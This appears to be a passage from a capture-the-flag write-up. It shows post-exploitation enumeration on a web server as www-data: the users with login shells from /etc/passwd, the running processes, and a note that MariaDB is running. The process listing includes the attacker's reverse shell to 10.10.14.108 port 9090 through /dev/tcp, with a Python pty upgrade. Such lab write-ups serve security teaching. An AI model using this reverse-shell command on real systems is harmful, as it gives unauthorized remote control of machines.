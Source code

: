 The users with a login shell:
```
www-data@webserver:/var/www/html$ grep -v nologin  /etc/passwd | grep -v /bin/false

root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```

One of the targets in scope is a user flag. The `drwilliams` user may be the target user, or provide more information to reach the target user.

The non-kernel processes:

```shell
www-data@webserver:/var/www/html$ ps -ef | grep .

root         403       1  0 18:27 ?        00:00:00 /lib/systemd/systemd-udevd
systemd+     574       1  0 18:27 ?        00:00:00 /lib/systemd/systemd-networkd
systemd+     581       1  0 18:27 ?        00:00:00 /lib/systemd/systemd-resolved
systemd+     582       1  0 18:27 ?        00:00:00 /lib/systemd/systemd-timesyncd
message+     626       1  0 18:27 ?        00:00:00 @dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root         633       1  0 18:27 ?        00:00:00 /usr/libexec/polkitd --no-debug
root         636       1  0 18:27 ?        00:00:01 /usr/lib/snapd/snapd
root         638       1  0 18:27 ?        00:00:00 /lib/systemd/systemd-logind
root         639       1  0 18:27 ?        00:00:00 /usr/libexec/udisks2/udisksd
root         669       1  0 18:27 ?        00:00:00 /usr/sbin/ModemManager
mysql        749       1  0 18:27 ?        00:00:00 /usr/sbin/mariadbd
root         767       1  0 18:27 ?        00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
syslog       824       1  0 18:27 ?        00:00:00 /usr/sbin/rsyslogd -n -iNONE
root         963       1  0 18:27 ?        00:00:00 /usr/sbin/cron -f -P
root         968       1  0 18:27 tty1     00:00:00 /sbin/agetty -o -p -- \u --noclear - linux
root         985       1  0 18:27 ?        00:00:00 /usr/sbin/apache2 -k start
www-data     986     985  0 18:27 ?        00:00:00 /usr/sbin/apache2 -k start
www-data     987     985  0 18:27 ?        00:00:00 /usr/sbin/apache2 -k start
www-data     988     985  0 18:27 ?        00:00:00 /usr/sbin/apache2 -k start
www-data     989     985  0 18:27 ?        00:00:00 /usr/sbin/apache2 -k start
www-data     990     985  0 18:27 ?        00:00:00 /usr/sbin/apache2 -k start
root        1118       2  0 18:32 ?        00:00:00 [kworker/0:0-events]
www-data    1125     985  0 18:36 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    1154     988  0 18:37 ?        00:00:00 sh -c /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.108/9090 0>&1'
www-data    1155    1154  0 18:37 ?        00:00:00 /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.14.108/9090 0>&1
www-data    1156    1155  0 18:37 ?        00:00:00 /bin/bash -i
www-data    1158    1156  0 18:39 ?        00:00:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data    1159    1158  0 18:39 pts/0    00:00:00 /bin/bash
root        1213       2  0 18:39 ?        00:00:01 [kworker/0:1-events]
root        1233       2  0 18:50 ?        00:00:00 [kworker/u256:2-events_unbound]
```

MariaDB (a.k.a. MySQL) is running.

